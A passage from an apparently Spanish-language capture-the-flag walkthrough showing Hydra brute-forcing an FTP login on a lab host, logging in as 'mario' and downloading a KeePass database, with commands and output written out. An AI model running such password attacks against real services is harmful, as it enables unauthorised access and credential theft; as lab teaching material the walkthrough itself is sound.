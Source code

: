 Pero esto no funciono con el **servicio SSH**, por lo que vamos a intentarlo con el **servicio FTP**.

Intentémoslo:
```bash
hydra -L usuarios.txt -p '******' ftp://192.168.10.10:2121
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-21 14:05:25
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:3/p:1), ~1 try per task
[DATA] attacking ftp://192.168.10.10:2121/
[2121][ftp] host: 192.168.10.10   login: mario   password: ******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-21 14:05:29
```
Muy bien, el usuario correcto es **mario**.

Con esto podemos entrar al **servicio FTP**:
```bash
ftp 192.168.10.10 2121
Connected to 192.168.10.10.
220 (vsFTPd 3.0.3)
Name (192.168.10.10:berserkwings): mario
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Y si vemos el contenido del **FTP**, vemos solo un archivo, siendo una base de datos de **KeePass**:
```bash
ftp> ls
229 Entering Extended Passive Mode (|||59048|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            1390 May 21  2024 user.kdbx
226 Directory send OK.
```

Entremos en **modo binary**, para evitar problemas en la descarga y descarguemos este archivo:
```bash
ftp> binary
200 Switching to Binary mode.
ftp> get user.kdbx
local: user.kdbx remote: user.kdbx
229 Entering Extended Passive Mode (|||56989|)
150 Opening BINARY mode data connection for user.kdbx (1390 bytes).
100% |*********************************|  1390      304.14 KiB/s    00:00 ETA
226 Transfer complete.
1390 bytes received in 00:00 (184.58 KiB/s)
ftp> exit
221 Goodbye.
```
Lo tenemos.
